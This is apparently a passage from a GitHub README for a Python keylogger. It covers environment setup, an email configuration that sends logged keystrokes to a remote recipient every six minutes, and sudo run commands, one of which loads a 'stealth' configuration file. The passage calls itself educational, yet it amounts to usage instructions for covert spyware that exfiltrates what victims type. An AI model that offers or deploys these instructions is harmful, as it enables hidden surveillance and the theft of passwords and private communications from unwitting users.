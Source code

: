 ### **3. Manual Setup**
```bash
# Create virtual environment
python3 -m venv .venv
source .venv/bin/activate  # Linux/macOS
# or
.venv\Scripts\activate     # Windows

# Install dependencies
pip install -r requirements.txt
```

### **4. Configure Email (Optional)**
Edit `config/config.json`:

```json
{
    "email": {
        "enabled": true,
        "sender_email": "your-email@gmail.com", 
        "sender_password": "your-app-password",
        "recipient_email": "reports@your-domain.com",
        "send_interval_hours": 0.1
    }
}
```

## 🚀 **Enhanced Usage**

### **Quick Start**
```bash
# Run with default configuration
sudo python main.py

# The keylogger will:
# ✅ Show educational warnings
# ✅ Detect application switches instantly
# ✅ Generate clean, readable logs  
# ✅ Send professional email reports
```

### **Advanced Usage**
```bash
# Debug mode with verbose output
sudo python main.py --debug

# Custom configuration file
sudo python main.py --config examples/stealth_config.json

# Test mode (safer for development)
sudo python main.py --test

# Component testing only
sudo python main.py --test-components
```
